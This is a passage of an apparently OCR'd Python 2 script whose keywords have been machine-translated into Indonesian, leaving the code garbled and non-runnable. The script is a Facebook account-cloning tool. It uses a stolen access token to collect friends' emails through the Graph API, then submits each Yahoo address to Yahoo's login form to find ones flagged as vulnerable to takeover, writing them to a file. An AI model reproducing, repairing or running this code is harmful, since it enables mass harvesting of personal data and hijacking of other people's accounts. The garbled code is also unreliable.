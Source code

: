 	print "\ 033 [1; 96m [+] \ 033 [1; 92mFile disimpan \ 033 [1; 91m: \ 033 [1; 97m keluar / MailVuln.txt"
	raw_input ("\ n \ 033 [1; 96m [\ 033 [1; 97mKembali \ 033 [1; 96m]")
	Tidak bisa()
		

def clone_dari_teman ():
	toket global
	os.system ('jelas')
	mencoba:
		toket = open ('login.txt', 'r'). read ()
	kecuali IOError:
		cetak "\ 033 [1; 96m [!] \ x1b [1; 91mToken tidak valid"
		os.system ('rm -rf login.txt')
		time.sleep (1)
		keluar ()
	mencoba:
		os.mkdir ('keluar')
	kecuali OSError:
		lulus
	os.system ('jelas')
	cetak logo
	mpsh = []
	jml = 0
	cetak 42 * "\ 033 [1; 96m ="
	idt = raw_input ("\ 033 [1; 96m [+] \ 033 [1; 93mMasukan ID teman \ 033 [1; 91m: \ 033 [1; 97m")
	mencoba:
		jok = requests.get ("https://graph.facebook.com/" + idt + "? access_token =" + toket)
		op = json.loads (jok.text)
		cetak "\ 033 [1; 96m [\ 033 [1; 97m.2016 \ 033 [1; 96m] \ 033 [1; 93mNama \ 033 [1; 91m: \ 033 [1; 97m" + op ["name"]
	kecuali KeyError:
		print "\ 033 [1; 96m [!] \ x1b [1; 91mTeman tidak ditemukan"
		raw_input ("\ n \ 033 [1; 96m [\ 033 [1; 97mKembali \ 033 [1; 96m]")
		Tidak bisa()
	jalan ('\ 033 [1; 96m [✺] \ 033 [1; 93mMengambil email \ 033 [1; 97m ...')
	teman = requests.get ('https://graph.facebook.com/'+idt+'/friends?access_token='+toket)
	kimak = json.loads (teman.text)
	jalan ('\ 033 [1; 96m [✺] \ 033 [1; 93m Mulai \ 033 [1; 97m ...')
	cetak ('\ x1b [1; 96m [!] \ x1b [1; 93mHentikan CTRL + z')
	cetak 43 * "\ 033 [1; 96m ="
	untuk w di kimak ['data']:
		jml + = 1
		mpsh.append (jml)
		id = w ['id']
		nama = w ['name']
		links = requests.get ("https://graph.facebook.com/" + id + "? access_token =" + toket)
		z = json.loads (links.text)
		mencoba:
			mail = z ['email']
			yahoo = re.compile (r '@. *')
			otw = yahoo.search (mail) .group ()
			if 'yahoo.com' dalam otw:
				br.open ("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = Benar
				br.select_form (nr = 0)
				br ["username"] = email
				klik = br.submit (). read ()
				jok = re.compile (r '"messages.ERROR_INVALID_USERNAME">. *')
				mencoba:
					pek = jok.search (klik) .group ()
				kecuali:
					terus